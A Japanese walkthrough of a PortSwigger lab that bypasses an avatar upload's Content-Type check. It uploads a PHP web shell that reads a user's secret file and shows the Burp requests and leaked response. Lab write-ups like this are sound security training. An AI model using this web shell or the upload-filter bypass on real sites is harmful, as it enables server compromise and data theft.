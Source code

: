 # Content-Type 制限バイパスによる Web シェルのアップロード

以下のハッキングラボは Content-Type により画像以外のファイルアップロードをガードしていますが、Content-Type は書き換え可能なので回避可能です。  
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

- 1. Burp Suite を起動して、Proxy タブからブラウザを起動
- 2. ブラウザからハッキングラボにアクセスします
- 3. 任意のユーザーでログインします
- 4. アバター画像アップロードが可能なので、任意の画像をアップロードします

- 5. 以下で php ファイルを作成し、アップロードします

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

アップロード時に Content-Type が違うと怒られて、アップロードは失敗します。

```
Sorry, file type application/octet-stream is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.
```

- 6. 上記リクエスト POST /my-account/avatar を Send to Repeater します

- 7. リクエストの Content-Type を application/octet-stream から image/jpeg に書き換えて、リクエストを送信するとアップロードに成功します。

- 8. 手順 4 で送信した GET /files/avatars/<画像ファイル> HTTP/2 を Sent do repeater します

- 9. GET /files/avatars/<php ファイル>に置き換えてリクエストを送信すると、carlos の秘密情報が抜き取れます

■ リクエスト

```
GET /files/avatars/exploit.php HTTP/2
Host: 0a7d00ba03b9f88880b63a2b003600e1.web-security-academy.net
Cookie: session=ID7e307JuvNuOJgCCXJ6m3WFyerxaqE0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a7d00ba03b9f88880b63a2b003600e1.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

■ レスポンス

```
HTTP/2 200 OK
Date: Sat, 05 Aug 2023 06:40:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

XDcY8naNIFaDlWN4vArFoMaOs2ZkgUFf
```

